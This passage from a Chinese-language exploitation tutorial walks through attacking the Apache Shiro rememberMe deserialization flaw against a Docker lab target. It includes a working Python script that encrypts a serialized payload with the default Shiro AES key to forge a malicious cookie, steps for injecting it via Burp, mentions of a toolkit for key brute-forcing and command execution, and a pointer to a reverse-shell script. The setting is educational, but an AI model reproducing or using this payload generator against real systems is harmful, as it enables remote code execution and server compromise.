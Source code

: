 ![](https://mmbiz.qpic.cn/sz_mmbiz_png/8OLrfyDFguGjRb01GrH058tOp3df0bc5QicGia93Y8zqmk6onpm1a4jXwMSr4MX36u8QdsIm1ELYiaBRf82TiceQmg/640?wx_fmt=png&from=appmsg "")  
- 接着使用poc脚本生成payload  
  
```
import sys
import uuid
import base64
from Crypto.Cipher import AES

def encode_rememberme():
    f = open('poc.ser','rb')
    BS = AES.block_size
    pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
    key = base64.b64decode("kPH+bIxk5D2deZiIxcaaaA==")
    iv = uuid.uuid4().bytes
    encryptor = AES.new(key, AES.MODE_CBC, iv)
    file_body = pad(f.read())
    base64_ciphertext = base64.b64encode(iv + encryptor.encrypt(file_body))
    return base64_ciphertext

if __name__ == '__main__':
    payload = encode_rememberme()   
    print("rememberMe={0}".format(payload.decode()))
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8OLrfyDFguGjRb01GrH058tOp3df0bc51AibKxMmPflb75ZR2icLTdibvgaDLEYf4bhGoMZdRPrZCvKWWibGHOJiaIg/640?wx_fmt=png&from=appmsg "")  
- 此时将生成的Payload替换到Burp抓到的请求包的cookie中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8OLrfyDFguGjRb01GrH058tOp3df0bc58J2kGS4iaHkl8Qr0TmQUATSMialpXRt3enQvsa17FoR3dKpVO4YA0Yrg/640?wx_fmt=png&from=appmsg "")  
- 进入搭建靶机，查看生成文件  
  
```
docker ps
docker exec -it f2a7445001c5 /bin/bash
cd /tmp
ls
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8OLrfyDFguGjRb01GrH058tOp3df0bc5CPJOKL4UPdBZhbjMU4937uzUYCEZxtLt0WU4r7jMJGxSHMmEtf04dw/640?wx_fmt=png&from=appmsg "")  
## 工具利用（ONE-FOX集成工具箱的shiro综合利用工具）  
- 爆破key  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8OLrfyDFguGjRb01GrH058tOp3df0bc5rXMCmmicmIveFEibaRbB0vRofrObiaEWa2Z1lqJNA95kKjGHCTTeCeicTg/640?wx_fmt=png&from=appmsg "")  
- 爆破利用链及回显  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8OLrfyDFguGjRb01GrH058tOp3df0bc5OqMxX9rKApgno789CBngngdHh60rkbhYBWz0kPNe0lT4h2bnq8V67g/640?wx_fmt=png&from=appmsg "")  
- 命令执行  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/8OLrfyDFguGjRb01GrH058tOp3df0bc5pumpsRRQyxAfr1Ld0Cx4VOSfZ467WtoqiakJsFp66EicOytsfqTRho7A/640?wx_fmt=png&from=appmsg "")  
## 使用py脚本进行反弹shell  
- 脚本下载地址：https://github.com/insightglacier/Shiro_exploit  
  